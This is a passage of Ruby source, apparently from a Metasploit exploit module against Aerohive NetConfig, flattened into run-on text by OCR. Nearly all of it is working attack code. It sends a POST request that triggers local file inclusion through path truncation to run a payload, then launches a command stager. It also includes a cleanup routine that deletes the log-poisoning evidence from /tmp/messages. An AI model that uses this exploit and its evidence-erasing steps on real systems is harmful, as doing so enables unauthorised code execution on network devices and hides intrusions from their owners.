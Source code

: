 period.        line_to_delete_file = "/tmp/#{rand_text_alphanumeric(5..10)}"        clean_messages_file = "/tmp/#{rand_text_alphanumeric(5..10)}"        cmds_to_clean_log = "grep #{@shell_cmd_name} /tmp/messages | grep POST | grep 'php system' > #{line_to_delete_file}; "\        "grep -vFf #{line_to_delete_file} /tmp/messages > #{clean_messages_file}; mv #{clean_messages_file} /tmp/messages; rm -f #{line_to_delete_file}"        if session.type.to_s.eql? 'meterpreter'          session.core.use 'stdapi' unless session.ext.aliases.include? 'stdapi'          session.sys.process.execute('/bin/sh', "-c \"#{cmds_to_clean_log}\"")          # Wait for cleanup          Rex.sleep 5          # Check for the PHP system call in /tmp/messages          messages_contents = session.fs.file.open('/tmp/messages').read.to_s          # using =~ here produced unexpected results, so include? is used instead          unless messages_contents.include?(@poison_cmd)            log_cleaned = true          end        elsif session.type.to_s.eql?('shell')          session.shell_command_token(cmds_to_clean_log.to_s)          # Check for the PHP system call in /tmp/messages          poison_evidence = session.shell_command_token("grep #{@shell_cmd_name} /tmp/messages | grep POST | grep 'php system'")          # using =~ here produced unexpected results, so include? is used instead          unless poison_evidence.include?(@poison_cmd)            log_cleaned = true          end        end      rescue StandardError => e        print_error("Error during cleanup: #{e.message}")      ensure        super      end      unless log_cleaned        print_warning("Could not replace the PHP system call '#{@poison_cmd}' in /tmp/messages")      end    end    if log_cleaned      print_good('Successfully cleaned up the log by deleting the line with the PHP syscal from /tmp/messages.')    else      print_warning("Erasing the log poisoning evidence will require manually editing/removing the line in /tmp/messages that contains the poison command:\n\t#{@poison_cmd}")      print_warning('Please note that any modifications to /tmp/messages, even via sed, will render the target (temporarily) unexploitable. This state can last over an hour.')      print_warning('Deleting /tmp/messages or clearing out the file may break the application.')    end  end  def execute_command(cmd, _opts = {})    print_status('Attempting to execute the payload')    send_request_cgi({      'method' => 'POST',      'uri' => normalize_uri(target_uri.path, 'action.php5'),      'vars_get' => {        '_action' => 'list',        'debug' => 'true'      },      'vars_post' => {        '_page' => rand_text_alphanumeric(1) + '/..' * 8 + '/' * 4041 + '/tmp/messages',  # Trigger LFI through path truncation        @shell_cmd_name => cmd      }    }, 0)    print_warning('In case of successful exploitation, the Aerohive NetConfig web application will hang for as long as the spawned shell remains open.')  end  def exploit    poison_log    if target.arch.first == ARCH_CMD      print_status('Executing the payload')      execute_command(payload.encoded)    else      execute_cmdstager(background: true)    end  endend
